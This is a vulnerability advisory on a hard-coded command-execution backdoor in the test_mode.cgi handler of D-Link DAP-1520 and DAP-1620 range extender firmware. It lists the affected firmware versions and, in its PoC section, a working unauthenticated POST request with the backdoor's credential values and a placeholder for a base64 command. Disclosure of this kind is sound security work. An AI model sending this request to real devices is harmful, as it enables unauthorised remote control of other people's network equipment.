



# D-Link dap-1520, 1620 hardcoded backdoor

## firmware information

Vendor: D-Link

Product: D-Link dap-1620, D-Link dap-1520

Affected product

For dap-1620, the following version is affected

- DAP-1620_REVA_FIRMWARE_PATCH_1.04.B04_BETA03
- DAP-1620_REVA_FIRMWARE_1.01.B05
- DIR-1620_REVA_FIRMWARE_1.04.B04
- DAP-1620_REVA_FIRMWARE_1.03.B08
- DAP-1620_REVA_FIRMWARE_v1.05B05

For dap-1520, the following version is affected

- DAP-1520_REVA_FIRMWARE_PATCH_1.09.B01_BETA04

Support URL

https://www.dlink.com/uk/en/products/dap-1520-wifi-ac750-range-extender

https://www.dlink.com/rs/sr/products/dap-1620-ac1300-wifi-range-extender

## Vulnerability description

In D-Link dap-1520, 1620, its `test_mode.cgi` in binary `/bin/ssi` contains a hard-coded backdoor. Unauthenticated attackers can send hard-coded command to the firmware and execute arbitrary commands.

The following code contains the decompiled code of the backdoor. In function `do_mp_method` (at address `0x40EA80` in binary `/bin/ssi`), the following code handles user's requests posting to `test_mode.cgi`



If user posts the following code 

`accu=mp1524&pass=kmark43&code=smpwdc&hash=/lJ9NwfO3rRGcAkzv49mmA1$cmds=<base64 encode of command>`

The firmware will process user's input, and decode the content provided in `cmds` field. If it's not the same with "reboot" or "nvram" and transfer it as the argument to function `sub_40e910`

The following code represent `sub_40e910`. It executes attackers' command without any sanitizing.



However, in the firmware's configuration file `etc/conf.d/graph_auth.conf`, it can be found that this url is intended set to be able to view as unauthenticated, which means any unauthenticated user can execute arbitrary command through this malicious cgi.



## POC

replace \<base64 encode of command\> field is to real command in base64 format to reproduce this vulnerability

```txt
POST /test_mode.cgi
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.143 Safari/537.36
Content-Type: 104
Content-Length: 49
accu=mp1524&pass=kmark43&code=smpwdc&hash=/lJ9NwfO3rRGcAkzv49mmA1$cmds=<base64 encode of command>
```

## timeline

\[25-02-20\] report to vendor